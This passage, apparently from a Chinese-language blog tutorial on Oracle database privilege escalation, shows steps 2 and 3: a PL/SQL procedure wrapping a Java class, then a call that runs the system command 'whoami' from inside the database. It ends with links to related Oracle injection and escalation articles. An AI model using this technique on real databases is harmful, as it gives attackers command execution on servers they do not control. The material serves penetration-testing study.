 


2、创建调用的包



```
create or replace procedure MYJAVACMD(command in varchar) as language java      
    name 'JAVACMD.execmd(java.lang.String)';      
/
```




3、执行系统命令。如果报错了不要紧，是因为代码中没有捕获异常，我们再执行一次即可。



```
EXEC MYJAVACMD('whoami');
```




关于如何在docker中搭建oracle数据库：[docker安装Oracle数据库](https://blog.csdn.net/qq_21137441/article/details/89339257)



参考文章：[Oracle数据库提权](https://www.cnblogs.com/-qing-/p/10768290.html#_label1)



相关文章：[记一次手工注入Oracle数据库](https://blog.csdn.net/csacs/article/details/90145501)



                  [【实战】Oracle注入总结](https://www.cnblogs.com/peterpan0707007/p/8242119.html)